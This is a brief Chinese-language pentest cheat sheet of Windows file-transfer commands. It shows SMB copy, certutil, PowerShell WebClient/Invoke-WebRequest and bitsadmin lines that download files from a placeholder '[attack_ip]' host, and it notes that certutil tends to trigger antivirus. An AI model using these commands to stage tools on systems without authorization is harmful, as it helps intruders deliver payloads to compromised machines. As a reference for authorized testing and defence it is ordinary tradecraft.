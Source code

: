 一些 Windows 的数据传输技巧。

CMD

```powershell
PS C:\Users\sec> copy \\[attack_ip]\[path]\[file] [path]\[file]
```

> 将共享文件复制到本地

certutil

```powershell
PS C:\Users\sec> certutil -urlcache -split -f http://[attack_ip]:[web_port][path]/[file] [path]\[file]
```

> 容易报毒

PowerShell

```powershell
PS C:\Users\sec> powershell -Command "Invoke-WebRequest -Uri http://[attack_ip]:[web_port]/[path]/[file] -OutFile [path]\[file]"
```

```powershell
PS C:\Users\sec> powershell -Command "(New-Object Net.WebClient).DownloadFile('http://[attack_ip]:[web_port]/[path]/[file]', '[path]\[file]')"
```

bitsadmin

```powershell
PS C:\Users\sec> bitsadmin /transfer down "http://[attack_ip]:[web_port]/[path]/[file]" [path]\[file]
```

